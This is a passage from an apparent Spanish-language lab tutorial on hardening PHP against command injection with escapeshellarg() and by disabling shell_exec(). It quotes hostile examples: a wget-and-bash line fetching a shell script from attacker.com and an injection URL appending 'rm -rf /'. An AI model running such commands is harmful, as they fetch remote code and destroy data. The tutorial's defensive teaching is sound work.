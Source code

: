 - Escapa caracteres especiales con escapeshellcmd() para mayor seguridad.

> Si contienen caracteres especiales, exec no va a realizar ninguna consulta, por lo que comprobamos y mostramos aviso de error.
>
> Si queremos que sólo se utilicen comandos simples sin argumentos y sin concatenar, podemos añadir un paso de seguridad con escapeshellarg(). Cambiamos la línea:

~~~
    $cmd_safe = escapeshellarg($cmd);
~~~

Beneficios:

- escapeshellarg() protege argumentos, evitando que se concatenen con ;, &&, |.

- Evita inyección de comandos (wget http://attacker.com/shell.sh && bash shell.sh).

- Mayor flexibilidad, pero más seguro que la ejecución directa de shell_exec().

Ejemplo: Si alguien intenta enviar:

~~~
http://localhost/rce.php?cmd=ping 8.8.8.8; rm -rf /
~~~

La función **escapeshellarg()** convertirá la entrada en:  'ping 8.8.8.8; rm -rf/), eliminará todo el comando y no ejecuta nada. Por eso controlamos cadena vacía.

![](images/rce9.png)

**Deshabilitar shell_exec() en PHP**

Si no se necesita ejecución de comandos en todo el servidor, deshabilitar las funciones peligrosas en php.ini.

Editar php.ini, para ello utilizamos el editor de texto nano (o el que prefiramos) para abrir la configuración de PHP de nuestro contenedor

~~~
docker exec -it lamp-php83 /bin/bash
~~~

Si estamos utilizando la pila LAMP con docker del laborario podemos ver en el archivo de configuración docker-compose.yml que hemos cambiado la ubicación de php:

![](images/rce10.png)

Por lo tanto abrimos el archivo de configuración:

> Aquí una puntualización. Si estamos usando el escenario multicontenedor del entorno de pruebas, podemos ver como en el php.ini tenemos unas configuraciones mínimas, pero tenemos preparados dos ficheros de configuración: php.ini-production y php.ini-development. Si vamos a poner nuestro LAMP o bien en un entorno de producción o de desarrollo deberíamos de renombrar el archivo correspondiente como php.ini para que se establezcan esas configuraciones. Puedes descargarlo aquí el [php.ini](files/php.ini.rce) 
> ![](images/rce11.png)

~~~
sudo nano /usr/local/etc/php/php.ini
~~~
